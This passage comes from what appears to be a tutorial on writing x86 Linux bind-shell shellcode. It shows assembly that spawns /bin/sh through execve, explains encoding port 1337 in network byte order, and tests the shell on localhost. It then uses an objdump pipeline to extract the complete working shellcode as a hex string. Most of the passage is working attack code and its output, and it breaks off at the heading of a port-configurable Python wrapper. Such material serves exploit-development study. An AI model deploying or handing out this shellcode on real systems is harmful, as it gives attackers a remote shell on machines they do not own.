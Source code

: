         ; execve("/bin//sh", NULL, NULL)  
        push edx            ; Null terminator  
        push 0x68732f2f     ; "hs//"  
        push 0x6e69622f     ; "nib/"  
          
        mov ebx, esp        ; EBX points to "/bin//sh"  
        mov ecx, edx        ; ECX = NULL  
          
        mov al, 0xb         ; execve()  
        int 0x80  
    

  
As you noticed, when calling bind(), we defined port 1337 as 0x3905 instead of
0x0539, this is because it's in network byte order, which is big-endian. In
the example code you should still call htonl even if your CPU is big-endian
for cross compatibility.  
  

## Testing our shell

#### 1\. Compile code and run

[![](http://i.imgur.com/psvbM4q.png)](http://i.imgur.com/psvbM4q.png)

####  

#### 2\. Connect to 127.0.0.1:1337

####  

[![](http://i.imgur.com/XWQFHG3.png)](http://i.imgur.com/XWQFHG3.png)

####  

## Extracting shellcode  

  

    
    
    abatchy@ubuntu:~/Desktop/work$ objdump -d ./bind_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'  
    "\x6a\x66\x58\x99\x31\xdb\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x96\x52\x43\x66\x68\x05\x39\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\x6a\x66\x58\xcd\x80\x53\x56\x89\xe1\x6a\x66\x58\x43\x43\xcd\x80\x52\x52\x56\x89\xe1\x43\xb0\x66\xcd\x80\x93\x31\xc9\xb0\x3f\xcd\x80\x41\x80\xf9\x04\x75\xf6\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"  
    

  

## Python wrapper

  
Simple wrapper that takes a port number between 1-65535 and spits out the
shellcode that will bind on the port provided.  
  
  

